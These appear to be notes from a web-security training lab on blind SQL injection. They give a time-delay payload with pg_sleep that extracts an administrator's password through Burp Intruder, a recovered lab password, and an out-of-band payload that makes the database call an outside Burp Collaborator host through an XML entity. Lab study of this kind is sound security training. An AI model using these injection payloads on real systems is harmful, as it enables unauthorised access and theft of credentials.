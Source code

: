 ```py

# send suitable payloads in the payload position that you've defined.
# Payloads tab > "Simple list" is selected > "Payload Options" add the payloads

# To be able to tell when the correct character was submitted, need to monitor the time taken for the application to respond to each request.
# For this process to be as reliable as possible, issue requests in a single thread.
# Options tab > "Request Engine" section > "Number of threads" to 1.


# Launch the attack
# Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information.
# "Columns" > "Response received".
# generally contain a small number, representing the number of milliseconds the application took to respond.
# One of the rows should have a larger number in this column, in the region of 10,000 milliseconds.
# The payload showing for that row is the value of the character at the first position.

# re-run the attack for each of the other character positions in the password
TrackingId=x'+SELECT+CASE+WHEN+(username='administrator'+AND+substring(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--


administrator
sa2jc1k5ua1ui3tpy3uz
```

---



# LAB: Exploiting blind SQL injection using out-of-band (OAST) techniques


```py
# Visit the front page of the shop
# use Burp Suite to intercept and modify the request containing the TrackingId cookie.
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

```


---


# Lab: Blind SQL injection with out-of-band data exfiltration
